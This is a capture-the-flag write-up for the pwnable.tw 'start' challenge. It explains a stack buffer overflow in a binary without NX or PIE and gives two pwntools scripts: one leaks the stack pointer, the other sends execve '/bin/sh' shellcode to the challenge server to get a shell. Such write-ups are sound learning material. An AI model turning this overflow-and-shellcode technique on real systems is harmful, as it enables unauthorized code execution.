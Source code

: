 ```yaml
---
title: "start [pwnable.tw]"
date: 2020-07-17
draft: false
tags: ["pwnable.tw"]
---
```



Here our main objective is to get a shell. The bug is plain and simple, it is an overflow to control the return address.

<!--more-->

![](/images/pwnable1/pwnable1.png)

## Solution:

First I check the mitigations :

![](/images/pwnable1/pwnable2.png)

So I think it's going to be fun !! As we have the permission to execute the stack (NX disabled). There is also no PIE so we don't have to worry about the address changing every time :)
Now, let us run the binary and see what is happening :>

![](/images/pwnable1/pwnable3.png)

So it's simple just asking input and printing something. Now its time to see the assembly behind this binary.

![](/images/pwnable1/pwnable4.png)

So we can observe that all the registers are being emptied and then 5 values are beings pushed to the stack.
If we examine them we can see that they are the strings that are printed when we run the binary.
Math → 5 pushes are made and 4 bytes are taken for each push so a total of 20 bytes is taken by the binary to store it :P.
Also ``INT 0x80`` is equivalent to syscall. We can observe 2 syscalls being called

![](/images/pwnable1/pwnable5.png)

The first syscall is used to make the write. (For printing the string)

![](/images/pwnable1/pwnable6.png)

The second syscall is used to call read ( Probably to take our input ). Now let's see what we can do to get root access !!

I hope you find the offset by yourself or try pattern create in gdb-peda. :)

## Idea:

* We have to overflow to the return address and then we have to somehow leak the stack pointer (ESP)
* So if we get the stack pointers address then we can place the shellcode there and then point the EIP to that address to give us a shell!

``Remember the write syscall prints the buffer pointed by the ECX.``

* After the syscall, the stack is cleared as they call the add instruction (It removes the 20 bytes)

## Crafting the Exploit:

* first 20 bytes to fill the buffer then put the address of move ESP to ECX.
* So first input will give the ESP.
* Next, we place the shellcode (from shellstorm.org) then execute it.
* We don't have to worry about the shift of the stack because there is no PIE

```py
from pwn import *
p = remote('chall.pwnable.tw', 10000)
print(p.read())
buf = 'A'*20
buf += p32(0x08048087)
p.send(buf)
esp = unpack(p.read()[:4])
print hex(esp)
p.interactive()

```

note: u32 is the opposite of p32 this returns the number and then we convert the number to hex. Also, we read the first 4 bytes the server sends us.

Output: ``0xff819750``

## Final Exploitation

* We place the shellcode then just execute it, in the read that followed the write.

```py

from pwn import *
p = remote('chall.pwnable.tw', 10000)
print(p.read())
buf = 'A'*20
buf += p32(0x08048087)
p.send(buf)
esp = unpack(p.read()[:4])
shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
#new exploit
buf = 'a'*20
buf += p32(esp+20)
buf += shellcode
p.send(buf)
p.interactive()

```

![](/images/pwnable1/pwnable7.png)

I hope you liked the write-up. More writeups on its way.
